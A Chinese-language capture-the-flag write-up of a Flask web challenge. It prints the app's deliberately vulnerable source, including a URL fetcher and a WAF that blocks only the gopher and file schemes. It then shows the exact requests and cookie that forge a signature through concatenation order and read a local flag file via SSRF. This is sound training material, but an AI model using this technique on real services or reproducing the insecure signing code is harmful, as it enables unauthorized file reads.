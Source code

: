 ![](<./img/Pasted image 20221214153844.png>)

---
首页长这样

![](<./img/Pasted image 20221214154030.png>)

心肺停止，你python都能代码压缩的吗
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
import imp

imp.reload(sys)

app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                    result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
                if result['code'] == 500:
                    result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
            return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.request.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.request.unquote(request.cookies.get("action")) # Get action from cookie
    param = urllib.request.unquote(request.args.get("param", "")) # Get param from url query
    sign = urllib.request.unquote(request.cookies.get("sign")) # Get sign from cookie
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.request.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param): # param should not start with gopher or file
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```
格式化代码比读代码还累.jpg

这波是吃了文化的亏，`python2`的`urlopen`原来不指定协议的时候默认就是`file`协议QAQ

总体思路就是利用`getSign`拼接顺序的漏洞绕过`Task.checkSign`和`geneSign`共同构成的对可用`action`的限制

令`param='flag.txtread'`，通过`geneSign`拼接而成的`md5(secret_key + 'flag.txtreadscan')`同指定`param='flag.txt'` `action='readscan'`相同

---
**获取`Sign`**
```php
/geneSign?param=flag.txtread
```
> 61dc9e0bbd275404f5bc301cf7b2ebde

---
**获取`flag`**
```php
/De1ta?param=flag.txt
```

**`Cookie`**
```http
Cookie: action=readscan; sign=61dc9e0bbd275404f5bc301cf7b2ebde
```
> {"code": 200, "data": "flag{6bbd3cad-1afd-4883-948c-70061755f1f3}\n"}

#Web #python #bypass #SSRF #HTTP #function 